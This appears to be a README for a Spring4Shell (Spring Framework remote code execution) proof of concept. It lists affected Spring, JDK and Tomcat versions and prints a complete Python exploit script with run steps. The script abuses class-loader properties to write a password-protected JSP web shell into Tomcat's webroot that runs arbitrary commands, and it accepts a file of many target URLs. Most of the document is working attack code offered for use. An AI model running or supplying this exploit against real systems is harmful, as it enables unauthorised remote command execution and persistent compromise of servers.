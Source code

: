 ### Requires:
SpringBoot <= 2.6.5 or Spring Framework <= 5.3.16
JDK >= 9
Tomcat <= 9.0.61 or 10.0.19


### POC
https://github.com/BobTheShoplifter/Spring4Shell-POC/blob/0c557e85ba903c7ad6f50c0306f6c8271736c35e/poc.py 

'''
#coding:utf-8

import requests
import argparse
from urllib.parse import urljoin

def Exploit(url):
    headers = {"suffix":"%>//",
                "c1":"Runtime",
                "c2":"<%",
                "DNT":"1",
                "Content-Type":"application/x-www-form-urlencoded"

    }
    data = "class.module.classLoader.resources.context.parent.pipeline.first.pattern=%25%7Bc2%7Di%20if(%22j%22.equals(request.getParameter(%22pwd%22)))%7B%20java.io.InputStream%20in%20%3D%20%25%7Bc1%7Di.getRuntime().exec(request.getParameter(%22cmd%22)).getInputStream()%3B%20int%20a%20%3D%20-1%3B%20byte%5B%5D%20b%20%3D%20new%20byte%5B2048%5D%3B%20while((a%3Din.read(b))!%3D-1)%7B%20out.println(new%20String(b))%3B%20%7D%20%7D%20%25%7Bsuffix%7Di&class.module.classLoader.resources.context.parent.pipeline.first.suffix=.jsp&class.module.classLoader.resources.context.parent.pipeline.first.directory=webapps/ROOT&class.module.classLoader.resources.context.parent.pipeline.first.prefix=tomcatwar&class.module.classLoader.resources.context.parent.pipeline.first.fileDateFormat="
    try:
        requests.post(url,headers=headers,data=data,timeout=15,allow_redirects=False, verify=False)
        shellurl = urljoin(url, 'tomcatwar.jsp')
        shellgo = requests.get(shellurl,timeout=15,allow_redirects=False, verify=False)
        if shellgo.status_code == 200:
            print(f"Vulnerable，shell ip:{shellurl}?pwd=j&cmd=whoami")
    except Exception as e:
        print(e)
        pass




def main():
    parser = argparse.ArgumentParser(description='Spring-Core Rce.')
    parser.add_argument('--file',help='url file',required=False)
    parser.add_argument('--url',help='target url',required=False)
    args = parser.parse_args()
    if args.url:
        Exploit(args.url)
    if args.file:
        with open (args.file) as f:
            for i in f.readlines():
                i = i.strip()
                Exploit(i)

if __name__ == '__main__':
    main()

'''

### Steps
1. python3 poc.py --url http://localhost:8080/YourWarName/addUser
2. Shell will be writen into `$TOMCAT_HOME/webapps/ROOT/tomcatwar.jsp`
3. Visit http://localhost:8080/tomcatwar.jsp for shell access.


### References
https://paper.seebug.org/1877/
https://mp.weixin.qq.com/s/plFLE8e0-Fc2tHJ4HaiSSw

